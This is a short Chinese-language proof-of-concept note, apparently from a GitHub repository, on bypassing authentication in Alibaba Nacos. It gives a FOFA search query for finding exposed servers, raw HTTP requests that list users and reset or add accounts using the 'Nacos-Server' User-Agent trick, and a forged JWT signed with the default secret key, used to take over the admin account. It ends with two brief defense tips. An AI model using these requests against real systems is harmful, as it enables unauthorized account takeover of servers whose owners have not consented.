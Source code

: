 # Alibaba Nacos认证绕过

## 搜索资产
`fofa：title="Nacos"`

## POC：
#### 查看用户
```shell
GET /nacos/v1/auth/users?pageNo=1&pageSize=100 HTTP/1.1
User-Agent: Nacos-Server
Host: x.x.x.x
Connection: close
```
![](img/query.png)  
请求url不存在的话去掉`/nacos/`尝试  
#### 修改/添加用户
修改用户：使用 PUT 请求，newPassword 参数  
添加用户：使用 POST请求，password 参数  
```shell
PUT /nacos/v1/auth/users HTTP/1.1
Host: x.x.x.x
User-Agent: Nacos-Server
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

username=nacos&newPassword=bbbb
```
![](img/add.png)
请求url不存在的话去掉`/nacos/`尝试  
#### 防御方法
开启鉴权：在application配置文件中修改nacos.core.auth.enabled为true  

## 开启鉴权绕过
## POC
#### 获取Cookie
调用登陆接口添加请求头：`Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTE5NH0.ZZcQGFGfsFBmmf2eDSwL2Cpz9QOLgxVoVt8MbV25J84`  
```shell
POST /nacos/v1/auth/users/login HTTP/1.1
Host: 172.16.7.149:8848
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTE5NH0.ZZcQGFGfsFBmmf2eDSwL2Cpz9QOLgxVoVt8MbV25J84
Content-Length: 25

username=aaa&password=aaa
```
![](img/bypassLogin.png)
#### 修改/添加用户
调用修改用户接口添加请求头`Authorization`和上一步获取到的`Cookie`  
```
PUT /nacos/v1/auth/users HTTP/1.1
Host: 172.16.7.149:8848
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTE5NH0.ZZcQGFGfsFBmmf2eDSwL2Cpz9QOLgxVoVt8MbV25J84
Cookie: JSESSIONID=55DDC753866DA432CE9D87A6BC8B517C
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=nacos&newPassword=abcde
```
![](img/bypassAdd.png)
#### 防御方法
修改默认token.secret.key的值  
默认的token.secret.key=SecretKey012345678901234567890123456789012345678901234567890123456789